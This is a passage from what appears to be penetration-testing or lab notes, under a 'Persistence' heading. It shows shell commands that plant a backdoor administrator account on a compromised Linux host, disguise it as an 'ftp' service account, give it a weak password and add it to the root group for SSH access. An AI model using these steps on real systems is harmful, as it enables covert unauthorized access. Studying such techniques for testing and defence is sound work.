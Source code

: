 ### Persistence <a href="#persistence" id="persistence"></a>

* Create a backdoor user with administrative privileges that can be used to access the target system via SSH

```sh
shell
whoami
	root
cat /etc/passwd

# Create a user that looks like a service account
# and add it to "root group"
useradd -m ftp -s /bin/bash
passwd ftp
	password123
```

<figure><img src="../../../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

* Add the ftp into `root` group
